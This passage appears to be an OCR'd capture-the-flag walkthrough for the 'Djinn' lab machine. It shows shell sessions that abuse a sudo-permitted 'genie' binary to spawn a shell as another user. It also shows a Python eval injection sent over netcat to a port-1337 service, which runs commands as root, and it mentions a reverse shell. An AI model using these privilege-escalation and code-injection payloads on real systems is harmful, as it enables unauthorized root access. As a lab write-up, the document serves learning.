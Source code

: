 usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

genie: error: the following arguments are required: wish

nitish\@djinn:\~\$ sudo -u sam /usr/bin/genie -p "/bin/sh"

sudo -u sam /usr/bin/genie -p "/bin/sh"

usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

genie: error: the following arguments are required: wish

nitish\@djinn:\~\$ genie whoami -p /bin/bash -e /bin/bash

genie whoami -p /bin/bash -e /bin/bash

nitish\@djinn:/opt/80\$ sudo -u sam genie -p "/bin/bash" -g wish

sudo -u sam genie -p "/bin/bash" -g wish

We've added your wish to our records.

Continue praying!!

\#

As I could not get far with the genie executable I tried searching elsewhere.
Considering that the app.py was written in python, I thought that port 1337 app

might be written in python too. After a little bit of digging I found this
article,
https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/ .

First, start with something easy - whoami, as it turns out the program was
running with root privileges.

lifesfun:\~\# nc -nv 192.168.211.145 1337

(UNKNOWN) [192.168.211.145] 1337 (?) open

\___\_ \____\_ \_

/ \___\| \_\_ \_ \_ \_\_ \__\_ \__\_ \|\_ \_(_)\_ \_\_ \__\_ \__\_

\| \| \_ / \_\` \| '\_ \` \_ \\ / \_ \\ \| \| \| \| '\_ \` \_ \\ / \_ \\

\| \|_\| \| (_\| \| \| \| \| \| \| \__/ \| \| \| \| \| \| \| \| \| \__/

\\____\|\\__,_\|_\| \|_\| \|_\|\\___\| \|_\| \|_\|_\| \|_\| \|_\|\\___\|

Let's see how good you are with simple maths

Answer my questions 1000 times and I'll give you your gift.

(6, '+', 1)

\> eval('__import__("os").system("whoami")')

root

Wrong answer

Next the same encoding was used to get a reverse root shell as the initial user
shell.
